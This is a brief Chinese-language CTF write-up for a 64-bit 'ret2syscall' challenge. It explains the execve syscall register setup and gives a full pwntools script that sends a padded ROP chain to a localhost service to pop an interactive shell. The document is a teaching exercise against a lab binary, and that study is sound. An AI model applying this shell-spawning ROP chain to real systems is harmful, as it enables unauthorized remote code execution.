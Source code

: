 # ret2syscall

## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别:
(32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall))  
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
